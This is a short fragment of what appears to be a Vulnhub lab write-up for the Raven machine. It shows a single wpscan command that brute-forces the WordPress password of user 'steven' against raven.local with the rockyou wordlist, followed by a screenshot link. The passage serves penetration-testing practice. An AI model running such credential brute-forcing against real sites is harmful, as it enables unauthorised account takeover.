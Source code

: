 test
Cracking user steven with wpscan tools
Command : wpscan --url raven.local -usernames steven -passwords /usr/share/wordlists/rockyou.txt

<img width="708" alt="image" src="https://github.com/psfauzi/Vulnhub_Like_OSCP/assets/49013900/5ee84fd3-b7e9-4677-81bf-120888c9125d">
